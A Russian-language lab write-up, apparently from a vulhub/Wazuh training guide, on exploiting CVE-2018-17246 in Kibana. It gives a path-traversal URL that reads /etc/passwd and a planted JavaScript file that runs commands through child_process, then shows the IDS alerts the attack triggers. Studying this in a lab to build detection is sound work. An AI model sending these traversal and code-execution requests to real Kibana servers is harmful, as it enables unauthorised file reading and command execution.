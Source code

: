 # CVE-2018-17246

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2018-17246](https://nvd.nist.gov/vuln/detail/CVE-2018-17246)
* [https://www.opencve.io/cve/CVE-2018-17246](https://www.opencve.io/cve/CVE-2018-17246)

Kibana — это панель визуализации данных для Elasticsearch с открытым исходным кодом.

Версии Kibana до 6.4.3 и 5.6.13 содержат ошибку включения произвольных файлов в плагине консоли. Злоумышленник, имеющий доступ к API консоли Kibana, может отправить запрос, который попытается выполнить код JavaScript. Это может привести к тому, что злоумышленник сможет выполнять произвольные команды с разрешениями процесса Kibana на хосте.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/kibana/CVE-2018-17246

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:5601 будет доступна панель Kibana

Введите следующий URL-адрес в вашу поисковую строку:

```
http://ваш-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

<figure><img src="../../.gitbook/assets/cve-2018-17246(1).png" alt=""><figcaption></figcaption></figure>

При отправке этого запроса возникает 500-я ошибка, но мы можем увидеть исключение в логах контейнера (`docker compose logs`)

<figure><img src="../../.gitbook/assets/cve-2018-17246(2).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости запишите следующий код в файл на уязвимом хосте

```
docker compose exec kibana bash
echo "export default {asJson: function() {return require(\"child_process\").execSync(\"id\").toString()}}" > /tmp/vulhub.js
```

После отправки следующего GET-запроса в ответе мы получим результат выполнения команды id на целевой машине:

```
http://ваш-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../tmp/vulhub.js
```

<figure><img src="../../.gitbook/assets/cve-2018-17246(3).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/cve-2018-17246(4).png" alt=""><figcaption></figcaption></figure>
